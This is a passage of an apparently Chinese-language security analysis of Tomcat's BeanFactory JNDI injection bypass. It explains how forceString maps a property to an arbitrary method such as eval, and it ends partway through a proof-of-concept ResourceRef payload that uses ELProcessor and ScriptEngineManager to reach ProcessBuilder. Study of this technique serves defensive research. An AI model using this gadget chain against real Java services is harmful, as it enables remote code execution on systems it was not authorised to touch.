 ```java
                       beanClass.getMethod(setterName, paramTypes));
        } // ...
    }
}
```

ReferenceRef存在着可控的键值对关系，通过`get`函数获得，如上述代码`ref.get("forceString")`将会获得forceString相对应的RefAddr，通过调用RefAddr的getContent函数就可以获得forceString键对应的值。

这里需要注意的是，当forceString对应的内容中存在`=`时，将截取`=`后面的字符串作为后续调用的函数名。这意味着我们可以任意指定当前对象的类函数了。force键值对中将包含`=`前面的内容和相应的Method对象。例如`test=eval`,最终我们将得到eval的Method对象

```java
Enumeration<RefAddr> e = ref.getAll();

while (e.hasMoreElements()) {

    ra = e.nextElement();
    String propName = ra.getType();

    if (propName.equals(Constants.FACTORY) ||
        propName.equals("scope") || propName.equals("auth") ||
        propName.equals("forceString") ||
        propName.equals("singleton")) {
        continue;
    }

    value = (String)ra.getContent();

    Object[] valueArray = new Object[1];

    /* Shortcut for properties with explicitly configured setter */
    Method method = forced.get(propName);
    if (method != null) {
        valueArray[0] = value;
        try {
            method.invoke(bean, valueArray);
        } catch (IllegalAccessException|
                 IllegalArgumentException|
                 InvocationTargetException ex) {
            throw new NamingException
                ("Forced String setter " + method.getName() +
                 " threw exception for property " + propName);
        }
        continue;
    }
```

`ref.getAll`获取了所有的RefAddr，对于非`Constants.FACTORY/scope/auth/forceString/singleton`且前文又获取相应的Method对象时，我们将调用该对象，其函数参数为此时RefAddr的内容。比如存在一个RefAddr的type为`test`，将调用前面的`eval`的Method对象。

到这里，我们就完成了一次反射调用，来看看poc

```java
// payload from kingx
ResourceRef ref = new ResourceRef(
    "javax.el.ELProcessor",// bean class
    null, "", "",
    true,"org.apache.naming.factory.BeanFactory",// factory class
    null);

ref.add(new StringRefAddr("forceString", "KINGX=eval"));// eval函数Method对象将会被调用
ref.add(new StringRefAddr("KINGX",
    "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
        ".newInstance().getEngineByName(\"JavaScript\")" +
        ".eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](" +
```